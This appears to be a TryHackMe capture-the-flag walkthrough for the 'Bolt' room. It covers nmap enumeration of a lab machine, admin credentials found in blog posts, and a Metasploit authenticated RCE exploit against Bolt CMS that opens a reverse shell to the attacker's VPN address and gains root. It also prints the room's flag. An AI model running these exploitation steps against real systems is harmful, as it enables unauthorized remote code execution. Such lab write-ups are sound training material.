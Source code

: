 # TryHackMe Walkthrough 
Room link: https://tryhackme.com/r/room/bolt

## Nmap:
```
nmap -sCV -v 10.10.189.54 
```
<pre>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 11:31 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating Ping Scan at 11:31
Scanning 10.10.189.54 [4 ports]
Completed Ping Scan at 11:31, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:31
Completed Parallel DNS resolution of 1 host. at 11:31, 0.05s elapsed
Initiating SYN Stealth Scan at 11:31
Scanning 10.10.189.54 [1000 ports]
Discovered open port 80/tcp on 10.10.189.54
Discovered open port 22/tcp on 10.10.189.54
Discovered open port 8000/tcp on 10.10.189.54
Completed SYN Stealth Scan at 11:31, 5.32s elapsed (1000 total ports)
Initiating Service scan at 11:31
Scanning 3 services on 10.10.189.54
Completed Service scan at 11:32, 29.96s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.189.54.
Initiating NSE at 11:32
Completed NSE at 11:32, 7.69s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 11.14s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Nmap scan report for 10.10.189.54
Host is up (2.6s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
  
NSE: Script Post-scanning.
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
</pre>

## Opening IP in Browser:
### Did not find anything here 
![Screenshot 2024-07-22 210254](https://github.com/user-attachments/assets/257980f2-8be0-4cc6-9350-5099dadccb2c)


### Navigated to the port 8000, This has got some interesting pages
![Screenshot 2024-07-22 215524](https://github.com/user-attachments/assets/909c645b-e3ac-46b1-81ff-52a8e371f220)


### One of the blog reveals to us the username of the admin of the website
![Screenshot from 2024-07-22 11-41-03](https://github.com/user-attachments/assets/04d88e03-e942-4850-bf04-a7ab490d8345)

### And other blog reveals us the password in clear text 
![Screenshot from 2024-07-22 12-29-48](https://github.com/user-attachments/assets/e0753192-9bda-4f46-9a3d-51ab03f2ff99)



## SSH Login:
#### The username and passowrd are not for ssh 
```
ssh bolt@10.10.189.54
```
<pre>
The authenticity of host '10.10.189.54 (10.10.189.54)' can't be established.
ED25519 key fingerprint is SHA256:e1qiq3Gpe8kdF5iw8bxPh9T4IgoUlUqClso+H6525EE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.189.54' (ED25519) to the list of known hosts.
bolt@10.10.189.54's password: 
Permission denied, please try again.
bolt@10.10.189.54's password: 
</pre>

### Went to user manual page of Bolt CMS and found the login page details
![Screenshot 2024-07-22 220916](https://github.com/user-attachments/assets/8038d255-2403-4ed5-a8cb-4168f2383eaa)
### Logged in with the credentials and found the CMS version.

### Searched for the exploit in Exploit DB
![Screenshot 2024-07-22 221151](https://github.com/user-attachments/assets/e21ff7c1-cb55-4069-a53c-b8018886c8e0)

## Started the msfconsole:
#### Searched for the exploit in metasploit and selected the exploit and saw the options to set 
![Screenshot from 2024-07-22 12-14-40](https://github.com/user-attachments/assets/e1aab280-997b-4865-8cca-2f8a3e53eb16)

### Set the options LHOST, RHOSTS, USERNAME, PASSWORD and ran the exploit
<pre>
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => 10.17.9.110
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.10.189.54
RHOSTS => 10.10.189.54
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123 
PASSWORD => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > show options
</pre>
#### RHOST is the ip of the machine
#### LHOST is the ip of our machine’s vpn ( note: we don’t get reverse shell if we use our own ip )
#### USERNAME and PASSWORD is that we found in previous enumeration
#### TARGETURI is where you want to put our website url. here its bolt website in port 8000
```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run
```
<pre>
[*] Started reverse TCP handler on 10.17.9.110:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "sdkl".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file mnlzukxy.php.
[+] Deleted file rdtkllozkg.php.
[+] Used token b54399f7cfb24501eac04a71d2 to create bmphghhjytu.php.
[*] Attempting to execute the payload via "/files/bmphghhjytu.php?sdkl=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.17.9.110:4444 -> 10.10.189.54:53504) at 2024-07-22 12:15:03 -0400
[+] Deleted file bmphghhjytu.php.
[+] Reverted user profile back to original state.

whoami
root

cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
</pre>



